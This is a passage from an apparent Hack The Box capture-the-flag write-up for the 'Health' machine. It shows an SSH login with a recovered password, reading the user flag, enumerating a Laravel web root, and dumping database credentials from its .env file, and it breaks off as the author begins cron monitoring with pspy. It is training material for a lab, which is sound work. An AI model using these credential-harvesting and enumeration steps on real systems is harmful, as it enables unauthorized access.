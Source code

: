 ```

oxdf@hacky$ sshpass -p february15 ssh susanne@health.htb
...[snip]...
susanne@health:~$

```

And I can read `user.txt`:

```

susanne@health:~$ cat user.txt
3306ec8d************************

```

## Shell as root

### Enumeration

#### Web

There is another home directory on the box, but it’s just Gogs. There’s nothing super interesting in susanne’s home directory.

The website files are kept in `/var/www/html`:

```

susanne@health:/var/www/html$ ls
app            composer.lock  package.json  resources   tests
artisan        config         phpunit.xml   routes      vendor
bootstrap      database       public        server.php  webpack.mix.js
composer.json  node_modules   README.md     storage

```

The `.env` file has the creds for the database:

```

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+

```

#### Crons

I’ll start a Python webserver hosting [pspy](https://github.com/DominicBreuker/pspy), and upload it to Health:
